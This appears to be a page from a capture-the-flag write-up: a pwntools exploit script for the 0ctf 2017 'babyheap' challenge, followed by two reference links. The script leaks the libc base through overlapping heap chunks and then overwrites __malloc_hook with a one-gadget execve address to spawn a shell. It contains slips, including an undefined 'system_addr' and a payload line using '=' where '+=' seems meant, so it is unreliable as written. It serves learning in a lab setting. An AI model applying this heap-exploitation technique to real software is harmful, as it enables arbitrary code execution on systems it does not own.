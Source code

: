 ```python
    p.sendline(str(index))
    p.recvuntil('Content: \n')
    return p.recvline()[:-1]

def leak():
#    gdb.attach(p)
    alloc(0x60)
    alloc(0x40)
    fill(0, 0x60 + 0x10, 'a' * 0x60 + p64(0) + p64(0x71))
    alloc(0x100)
    fill(2, 0x20, 'c' * 0x10 + p64(0) + p64(0x71))
    free(1)
    alloc(0x60)
    fill(1, 0x40 + 0x10, 'b' * 0x40 + p64(0) + p64(0x111))
    alloc(0x50)
    free(2)
    leaked = u64(dump(1)[-8:])
    # return libc_base
    return leaked - 0x3c4b78


def fastbin_attack(libc_base):
    malloc_hook = libc.symbols['__malloc_hook'] + libc_base
    execve_addr = 0x4526a + libc_base

    log.info("malloc_hook @" + hex(malloc_hook))
    log.info("system_addr @" + hex(system_addr))
    gdb.attach(p)
    free(1)
    payload = 'a' * 0x60 + p64(0) + p64(0x71) + p64(malloc_hook - 27 - 0x8) + p64(0)
    fill(0, 0x60 + 0x10 + 0x10, payload)

    alloc(0x60)
    alloc(0x60)

    payload  = p8(0) * 3
    payload += p64(0) * 2
    payload  = p64(execve_addr)
    fill(2, len(payload), payload)
    alloc(0x20)

def main():
#    pwnlib.gdb.attach(p)
    libc_base = leak()
    log.info("get libc_base:" + hex(libc_base))
    fastbin_attack(libc_base)
    p.interactive()

if __name__ == "__main__":
    main()
```
### 参考资料
1. [0ctf 2017 babyheap writeup](http://blog.csdn.net/qq_29343201/article/details/66476135)(exp有问题)
2. [gd表哥的babyheap](https://bbs.pediy.com/thread-223461.htm)
